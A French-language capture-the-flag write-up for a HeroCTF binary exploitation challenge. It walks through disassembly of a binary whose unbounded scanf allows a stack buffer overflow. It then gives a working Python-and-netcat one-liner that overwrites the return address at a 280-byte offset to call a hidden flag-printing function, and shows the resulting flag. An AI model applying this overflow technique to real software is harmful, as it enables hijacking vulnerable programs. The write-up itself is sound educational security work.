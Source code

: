 Pour cet ultime challenge de pwn, on a uniquement accès au binaire, et non plus au code source comme lors du premier challenge.

Commençons par se renseigner sur ce binaire :
```bash
$ file pwn2 
pwn2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2fc8ebe2b5eee35be7e503226787911a6a55a1c0, for GNU/Linux 3.2.0, not stripped
```
Nous avons donc un binaire 64bits pour Intel (x86-64), non strippé.

On ouvre ce binaire dans notre désassembleur favori (Cutter, IDA, Ghidra, Radare2...) et on regarde la fonction main():
```assembly
120: int main (int argc, char **argv);
; var char **var_120h @ rbp-0x120
; var int64_t var_114h @ rbp-0x114
; var char *s @ rbp-0x110
; var size_t var_4h @ rbp-0x4
; arg int argc @ rdi
; arg char **argv @ rsi
0x004011c0      push    rbp
0x004011c1      mov     rbp, rsp
0x004011c4      sub     rsp, 0x120
0x004011cb      mov     dword [var_114h], edi ; argc
0x004011d1      mov     qword [var_120h], rsi ; argv
0x004011d8      lea     rdi, str.Donne_moi_ton_nom_little_hackerz_: ; 0x402030 ; const char *format
0x004011df      mov     eax, 0
0x004011e4      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x004011e9      lea     rax, [s]
0x004011f0      mov     rsi, rax
0x004011f3      lea     rdi, [0x00402054] ; const char *format
0x004011fa      mov     eax, 0
0x004011ff      call    __isoc99_scanf ; sym.imp.__isoc99_scanf ; int scanf(const char *format)
0x00401204      lea     rax, [s]
0x0040120b      mov     rdi, rax   ; const char *s
0x0040120e      call    strlen     ; sym.imp.strlen ; size_t strlen(const char *s)
0x00401213      mov     dword [var_4h], eax
0x00401216      lea     rax, [s]
0x0040121d      mov     rsi, rax
0x00401220      lea     rdi, str.Ca_sera_pas_si_simple_cette_fois_jeune___s ; 0x402058 ; const char *format
0x00401227      mov     eax, 0
0x0040122c      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x00401231      mov     eax, 0
0x00401236      leave
0x00401237      ret
```
On peut utiliser le décompiler si l'assembleur ne nous semble pas clair (pas de honte à cela !) :
```c
undefined8 main(undefined8 argc, char **argv)
{
    char **var_120h;
    int64_t var_114h;
    undefined8 var_4h;
    
    var_114h._0_4_ = (undefined4)argc;
    printf("Donne-moi ton nom little hackerz : ");
    __isoc99_scanf(0x402054, (int64_t)&var_114h + 4);
    strlen((int64_t)&var_114h + 4);
    printf("Ca sera pas si simple cette fois jeune \"%s\"\n", (int64_t)&var_114h + 4);
    return 0;
}
```
On continue de se balader et on remarque une fonction intéressante !
```bash
$ nm pwn2 
0000000000401182 T afficherFlagG4NG
[...]
```
Voyons voir celle-ci de plus près :
```assembly
62: sym.afficherFlagG4NG ();
0x00401182      push    rbp
0x00401183      mov     rbp, rsp
0x00401186      push    rbx
0x00401187      sub     rsp, 8
0x0040118b      call    geteuid    ; sym.imp.geteuid ; uid_t geteuid(void)
0x00401190      mov     ebx, eax
0x00401192      call    geteuid    ; sym.imp.geteuid ; uid_t geteuid(void)
0x00401197      mov     esi, ebx
0x00401199      mov     edi, eax
0x0040119b      call    setreuid   ; sym.imp.setreuid
0x004011a0      lea     rdi, str.cat_flag.txt ; 0x402008 ; const char *string
0x004011a7      call    system     ; sym.imp.system ; int system(const char *string)
0x004011ac      lea     rdi, str.Point_faible_:_trop_fort. ; 0x402015 ; const char *s
0x004011b3      call    puts       ; sym.imp.puts ; int puts(const char *s)
0x004011b8      nop
0x004011b9      add     rsp, 8
0x004011bd      pop     rbx
0x004011be      pop     rbp
0x004011bf      ret
```
Cette fonction nous donnera le flag sur le serveur !

On constate dans le main que l'on peut écrire sans limite dans le buffer d'input, et on va s'en servir pour overflow le buffer de 256 caractères et réécrire l'adresse de retour : on veut ainsi appeler la fonction `afficherFlagG4NG` qui a pour addresse `0x0000000000401182`.

Dans l'idée on pourrait alors se dire qu'il faut écrire 256 caractères suivis de notre adresse (sans oublier le little endian) et que le tour est joué ! Eh oui... Mais non.

```assembly
120: int main (int argc, char **argv);
; var char **var_120h @ rbp-0x120
; var int64_t var_114h @ rbp-0x114
; var char *s @ rbp-0x110
```
Notre input est stocké dans le buffer identifié comme `char *s` (qui fait donc une taille de 256 octets). L'adresse de retour (un quadword soit 8 octets) est pop de la stack via l'instruction `ret` puis mise dans `rip` (instruction pointer) en fin de fonction.
Pour réécrire celle-ci, il nous faudra donc overwrite les int `var_114h` et `var_120h` (8 octets chacun) puis `rbp` (base pointer, qui indique le début de la stack) (8 octets également).

Il nous faudra donc finalement 256+(8\*3) = 280 caractères avant d'avoir la main sur l'adresse de retour.
On peut alors résoudre le challenge grâce à Python (eh oui, encore et toujours)
```bash
$ python -c "print('A')*280+'\x82\x11\x40\x00\x00\x00\x00\x00'" |  nc heroctf.fr 3001
Donne-moi ton nom little hackerz : Ca sera pas si simple cette fois jeune "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
FFlag: HeroCTF{4_l177l3_h4rd3r_bu7_571ll_345y_0101}
Point faible : trop fort.
```
HeroCTF{4_l177l3_h4rd3r_bu7_571ll_345y_0101}
